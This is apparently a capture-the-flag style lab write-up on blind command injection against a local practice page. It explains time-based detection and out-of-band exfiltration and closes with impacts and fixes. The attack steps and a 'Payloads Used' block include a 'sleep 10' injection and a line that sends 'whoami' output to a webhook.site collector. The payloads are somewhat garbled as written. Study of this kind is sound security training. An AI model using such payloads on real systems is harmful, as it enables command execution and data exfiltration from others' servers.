




# Command Injection 0x02

## What is Blind Command Injection?
Blind Command Injection is when the server
executes injected commands but does NOT return
the output to the attacker. The attacker has
to confirm the injection through other means
like time delays (sleep) or out-of-band
data exfiltration (webhook).

## Target
http://localhost/labs/c0x02.php

## Vulnerability
The Network check passes user input into a
system command but does not return command
output — making this a blind injection.

## Attack

### Step 1 — Identify the lab
Opened Command Injection 0x02 — looks similar
to 0x01 but no command output is shown.

### Step 2 — Test time-based blind injection
Used sleep to confirm command execution:
http://localhost?q='sleep 10'
Result: Page took 10 seconds to respond,
confirming blind command injection works!

### Step 3 — Set up Webhook for exfiltration
Got a unique webhook URL to receive data:
https://webhook.site/03d223bb-975e-4acd-...

### Step 4 — Out-of-band data exfiltration
Sent command output to webhook via URL:
https://webhook.site/03d223bb-.../?q='whoami'
The server executes whoami and sends the
result to the attacker's webhook.

### Step 5 — Confirm via response
The lab returned "Website OK" but the actual
command output was sent to the webhook.

## Payloads Used
```bash
http://localhost?q='sleep 10'
https://webhook.site/03d223bb-975e-4acd-bce9-d2ae9b539446/?q='whoami'
```

## Screenshots





## Impact
- Remote Code Execution without visible output
- Data exfiltration via out-of-band channels
- Harder to detect than regular command injection
- Same level of compromise as regular RCE

## Fix
- Never pass user input directly to shell commands
- Block outbound connections from web server
- Implement strict input validation
- Use parameterized commands or safe APIs
- Monitor outbound traffic for anomalies
